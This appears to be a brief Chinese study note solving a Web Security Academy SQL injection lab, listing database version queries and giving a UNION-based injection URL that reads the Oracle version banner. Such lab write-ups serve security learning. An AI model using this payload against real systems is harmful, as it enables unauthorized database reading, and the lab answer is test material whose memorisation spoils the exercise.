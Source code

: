 <img src=".\图片\Snipaste_2023-06-03_12-16-17.png" alt="Snipaste_2023-06-03_12-16-17" style="zoom:67%;" />

```
扩展（各数据库查询版本语句）：
Mysql        SELECT version()
Sql Server   SELECT @@version
Oracle       SELECT * FROM v$version
Postgre      SELECT version()
```

答案：

```http
https://0a7300110374e68d802d087700e1002c.web-security-academy.net/filter?category=Accessories111'  union select banner,'2' from v$version -- 
```

<img src=".\图片\Snipaste_2023-06-03_12-18-52.png" alt="Snipaste_2023-06-03_12-18-52" style="zoom:80%;" />
